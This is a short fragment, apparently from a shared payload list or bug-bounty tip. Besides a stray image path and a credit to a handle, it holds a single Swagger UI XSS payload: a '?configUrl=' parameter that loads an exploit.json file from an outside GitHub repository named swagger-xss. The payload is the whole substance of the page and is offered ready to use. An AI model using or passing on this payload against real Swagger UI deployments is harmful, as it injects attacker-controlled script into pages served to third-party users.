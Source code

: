 payload:
```
?configUrl=https://raw.githubusercontent.com/randixploit/swagger-xss/refs/heads/main/exploit.json
```

IB: [@coffinxp](https://github.com/coffinxp)
